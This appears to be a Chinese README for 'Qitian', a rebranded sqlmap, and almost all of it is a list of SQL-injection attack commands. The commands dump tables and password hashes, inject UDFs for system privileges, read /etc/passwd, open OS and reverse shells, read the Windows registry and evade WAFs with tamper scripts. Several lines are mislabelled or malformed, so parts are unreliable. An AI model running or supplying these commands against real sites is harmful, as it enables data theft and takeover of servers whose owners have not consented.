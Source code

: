 ## 魔改了一版中文版的SQLMAP，如下图：

 下面是由猫鼠信安团队，魔改为中文版的sqlmap，Qitian功能参数一模一样，
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/801ec7ff2c8f4432a525ec7aaefa913e.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/60382cf2fe6c4b42b7e8794955f4b747.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5731ccf6bf5a4cba88eb9bdbbe8dc8ac.png)

Qitian 2.0版，进知识星球获取
![5f9524e1555bdcc62ac91e92e5a1eaf](https://github.com/Xuno1/QiTian/assets/65332064/f5d32700-5320-4a58-aaf1-3a254026de28)




## 2.Qitian基础信息

 

 获取当前用户名称

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --current-user


获取当前数据库名称

 

 

 >python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --current-db


获取表名

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security --tables


获取字段

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users --columns


获取字段内容

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users -C id --dump


3.Qitian进阶信息内容

执行测试等级

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --level 2
>指定数据库类型

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbms "Mysql"
>列数据库用户

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --users


列数据库

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbs


数据库用户密码

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --passwords


列出指定用户数据库密码

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --passwords -U root


查看权限

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --privileges
>查看指定用户权限

 

p>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --privileges -U root


是否是数据库管理员

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --is-dba


枚举数据库用户角色

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --roles


导入用户自定义函数（获取系统权限！）

 

Qitian/Qitian.py -u "http://url/news?id=1"   --udf-inject


cookie注入

 

python Qitian/Qitian.py -u "http://url/news?id=1"   --cookie "COOKIE_VALUE"


获取banner信息

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -b


post注入

 


>python Qitian/Qitian.py -u "http://url/news?id=1" --data "id=3"


指纹判别数据库类型

 


>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -f


代理注入

 


>python Qitian/Qitian.py -u "http://url/news?id=1"  --proxy"http://127.0.0.1:8118"


指定关键词

 

 

 

 

 


>python Qitian/Qitian.py -u "http://url/news?id=1"--string"STRING_ON_TRUE_PAGE"

执行系统命令


>python Qitian/Qitian.py -u "http://url/news?id=1"   --file /etc/passwd

统交互shell


>python Qitian/Qitian.py -u "http://url/news?id=1"   --os-shell

反弹shell


>python Qitian/Qitian.py -u "http://url/news?id=1"   --os-pwn

读取win系统注册表

 

>python Qitian/Qitian.py -u "http://url/news?id=1"   --reg-read


保存进度

 

>python Qitian/Qitian.py -u "http://url/news?id=1"    --dbs-o "Qitian.log"


恢复已保存进度

 

>python Qitian/Qitian.py -u "http://url/news?id=1"    --dbs  -o "Qitian.log" --resume


## 3.Qitian绕过WAF

>python Qitian/Qitian.py -u "http://url/news?id=1"    --tamper 指定脚本
